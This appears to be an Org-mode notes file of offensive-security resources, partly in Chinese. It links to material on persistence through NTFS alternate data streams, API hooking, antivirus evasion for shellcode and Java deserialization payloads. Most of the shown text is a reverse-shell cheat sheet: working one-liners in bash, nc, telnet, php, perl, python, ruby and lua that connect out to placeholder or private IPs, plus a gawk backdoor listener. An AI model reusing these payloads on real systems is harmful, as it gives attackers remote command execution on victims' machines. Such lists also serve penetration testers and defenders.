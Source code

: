 ** 数据隐藏
   - [[https://www.cnblogs.com/Chesky/p/ALTERNATE_DATA_STREAMS.html][NTFS 交换数据流]]
   - [[https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/][Data Streams]]
** Hook
   - Detours: https://github.com/microsoft/Detours/wiki
   - inline hook lib: https://bbs.pediy.com/thread-225863.htm
   - linux elf hook *demo*: https://bbs.pediy.com/thread-178320.htm
** shellcode
   - 加密过杀软：https://xz.aliyun.com/t/6995
   - [[https://3gstudent.github.io/3gstudent.github.io/Shellcode%E7%94%9F%E6%88%90%E5%B7%A5%E5%85%B7Donut%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/][3gstudent shellcode 生成工具]]
** Java
   - 反序列化代码执行：http://www.jackson-t.ca/runtime-exec-payloads.html
** reverse shell
*** bash
    bash -i >& /dev/tcp/ip/port 0>&1
*** nc
    nc -e /bin/bash 192.168.1.146 7777
*** telnet
    #+begin_src sh
    telnet mknod backpipe p && telnet attackerip 8080 0<backpipe | \
    /bin/bash 1>backpipe
    #+end_src
*** php
    php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
*** perl
    #+begin_src sh
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
    open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    #+end_src
*** python
    #+begin_src sh
    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,
              socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);
              os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
              p=subprocess.call(['/bin/bash','-i']);"
    python -c "exec(\"import socket, subprocess;s=socket.socket();
              s.connect(('127.0.0.1',9000))\n
              while 1:  proc = subprocess.Popen(s.recv(1024), shell=True,
              stdout=subprocess.PIPE, stderr=subprocess.PIPE,
              stdin=subprocess.PIPE);
              s.send(proc.stdout.read()+proc.stderr.read())\")"
    python -c "exec(shellcode.encode('base64').decode('base64'))"
    #+end_src
*** ruby
    #+begin_src sh
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
            exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    #+end_src
*** lua
    #+begin_src sh
    lua -e "require('socket');require('os');t=socket.tcp();
    t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    #+end_src
*** awk
#+begin_src awk
  #!/usr/bin/gawk -f
  BEGIN {
      Port    =  8080
      Prompt  =  "bkd> "
      Service = "/inet/tcp/" Port "/0/0"
      while (1) {
          do {
              printf Prompt |& Service
              Service |& getline cmd
              if (cmd) {
                  while ((cmd |& getline) > 0)
                      print $0 |& Service
                  close(cmd)
              }
          } while (cmd != "exit")
          close(Service)
      }
  }
#+end_src
*** misc
   pseudo-terminal
   #+begin_src sh
   python -c 'import pty;pty.spawn("/bin/bash")'
   #+end_src
   - [[https://www.freebuf.com/news/142195.html][如何将简单的 Shell 转换成为完全交互式的 TTY]]
   - [[https://xz.aliyun.com/t/7721][完整交互式 shell]]
